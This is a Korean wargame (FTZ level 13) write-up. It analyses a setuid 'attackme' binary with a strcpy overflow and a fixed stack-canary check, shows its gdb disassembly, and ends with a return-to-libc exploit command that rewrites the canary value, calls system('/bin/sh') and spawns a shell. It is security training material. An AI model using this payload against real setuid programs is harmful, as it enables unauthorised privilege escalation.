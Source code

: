 ```yaml
---
sort: 13
---
```


# Level 13

```note
id : level13

password : have no clue
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 공격해보자.

```c
#include <stdlib.h> 

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }
}
```

level11과 같은 상황이다. 그러나 지역변수 i값이 변조되었는지 확인하는 루틴이 중간에 껴있다.<br>
buffer 끝에 random값을 넣어둔 후 해당 random값이 변조가 되었는지 확인하는 과정을 통해 bof를 탐지할 수 있는데, 이를 stack canary라고 한다.<br>
여기서는 random값이 아니므로 충분히 우회가 가능하다.<br><br>
GDB를 이용하여 attackme의 main함수를 disassemble했다.

<pre>
(gdb) disas main
Dump of assembler code for function main:
0x080484a0 (main+0):	push   %ebp
0x080484a1 (main+1):	mov    %esp,%ebp
0x080484a3 (main+3):	sub    $0x418,%esp

<b>0x080484a9 (main+9):	movl   $0x1234567,0xfffffff4(%ebp) </b>

0x080484b0 (main+16):	sub    $0x8,%esp
0x080484b3 (main+19):	push   $0xc16
0x080484b8 (main+24):	push   $0xc16
0x080484bd (main+29):	call   0x8048370 (setreuid)
0x080484c2 (main+34):	add    $0x10,%esp
0x080484c5 (main+37):	cmpl   $0x1,0x8(%ebp)
0x080484c9 (main+41):	jle    0x80484e5 (main+69)
0x080484cb (main+43):	sub    $0x8,%esp
0x080484ce (main+46):	mov    0xc(%ebp),%eax
0x080484d1 (main+49):	add    $0x4,%eax
0x080484d4 (main+52):	pushl  (%eax)

<b>0x080484d6 (main+54):	lea    0xfffffbe8(%ebp),%eax
0x080484dc (main+60):	push   %eax
0x080484dd (main+61):	call   0x8048390 (strcpy) </b>

0x080484e2 (main+66):	add    $0x10,%esp

<b>0x080484e5 (main+69):	cmpl   $0x1234567,0xfffffff4(%ebp)
0x080484ec (main+76):	je     0x804850d (main+109) </b>

0x080484ee (main+78):	sub    $0xc,%esp
0x080484f1 (main+81):	push   $0x80485a0
0x080484f6 (main+86):	call   0x8048360 (printf)
0x080484fb (main+91):	add    $0x10,%esp
0x080484fe (main+94):	sub    $0x8,%esp
0x08048501 (main+97):	push   $0xb
0x08048503 (main+99):	push   $0x0
0x08048505 (main+101):	call   0x8048380 (kill)
0x0804850a (main+106):	add    $0x10,%esp
0x0804850d (main+109):	leave  
0x0804850e (main+110):	ret
</pre>

strcpy가 사용되는 부분을 살펴보면 buf의 시작주소를 알 수 있고, 0x1234567을 할당하고 비교하는 부분에서 i의 주소를 알 수 있다.<br>
buf의 시작주소는 $ebp-0x418이고, i의 주소는 $ebp-0xc이다. 따라서 간격계산을 하여 i값이 손상되지 않도록 해야한다.

<img src="/picture/hacker_school/ftz/level13.png" width="700"/>

```bash
[level13@ftz level13]$ ldd ./attackme 
	libc.so.6 => /lib/tls/libc.so.6 (0x42000000)
	/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
```

사용되는 라이브러리와 mapping위치가 level11과 같은 것을 확인할 수 있다. 따라서 아래와 같이 shell을 딸 수 있었다.

```bash
# padding 0x40c byte + i 값 + 12 byte padding + system함수 주소 + 4byte padding + "/bin/sh" 주소
[level13@ftz level13]$ ./attackme `python -c "print('A'*0x40c+'\x67\x45\x23\x01AAAAAAAAAAAA\xc0\xf2\x03\x42\x41\x41\x41\x41\xa4\x7e\x12\x42\n')"`
sh-2.05b$ my-pass
```

```tip
## 알게 된 점

buffer overflow, RTL

stack canary
```